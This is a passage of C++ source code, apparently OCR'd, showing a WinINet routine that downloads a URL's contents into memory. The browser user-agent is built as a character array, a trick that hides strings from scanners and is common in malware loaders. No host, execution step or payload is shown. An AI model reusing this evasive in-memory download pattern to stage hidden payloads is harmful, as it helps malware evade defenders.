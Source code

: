 ```

    if (file_handle) {
        InternetCloseHandle(file_handle);
    }

    return ret;
}

bool DownloadFileToMem(
    __in LPCWSTR url,
    __out PBYTE* data,
    __out PDWORD data_size
) {
    BOOL ret = false;
    HINTERNET inet_handle = 0;
    HINTERNET url_handle = 0;

    do
    {
        WCHAR user_agent[] = { 'M', 'o', 'z', 'i', 'l', 'l', 'a', '/', '5', '.', '0', ' ', '(', 'W', 'i', 'n', 'd', 'o', 'w', 's', ' ', 'N', 'T', ' ', '1', '0', '.', '0', ';', ' ', 'W', 'i', 'n', '6', '4', ';', ' ', 'x', '6', '4', ')', ' ', 'A', 'p', 'p', 'l', 'e', 'W', 'e', 'b', 'K', 'i', 't', '/', '5', '3', '7', '.', '3', '6', ' ', '(', 'K', 'H', 'T', 'M', 'L', ',', ' ', 'l', 'i', 'k', 'e', ' ', 'G', 'e', 'c', 'k', 'o', ')', ' ', 'C', 'h', 'r', 'o', 'm', 'e', '/', '1', '3', '1', '.', '0', '.', '0', '.', '0', ' ', 'S', 'a', 'f', 'a', 'r', 'i', '/', '5', '3', '7', '.', '3', '6', 0, 0 };

        inet_handle = InternetOpenW(user_agent, INTERNET_OPEN_TYPE_PRECONFIG, nullptr, nullptr, 0);

        if (!inet_handle) {
            DBGPRINT(L"File %s, line %d, InternetOpenW error %d", __FILEW__, __LINE__, GetLastError());
            break;
        }

        url_handle = InternetOpenUrlW(inet_handle, url, nullptr, 0, 0, 0);

        if (!url_handle) {
            DBGPRINT(L"File %s, line %d, InternetOpenUrlW error %d", __FILEW__, __LINE__, GetLastError());
            break;
        }

        DWORD total = 0;

        while (true) {
            byte buffer[4096] = { 0 };
            DWORD read = 0;

            if (!InternetReadFile(url_handle, buffer, 4096, &read)) {
                DBGPRINT(L"File %s, line %d, InternetReadFile error %d", __FILEW__, __LINE__, GetLastError());
                break;
            }

            if (!read) {
                *data_size = total;
                ret = true;
                break;
            }

            if (!*data) {
                *data = (PBYTE)Memory::Alloc(read);
            }
```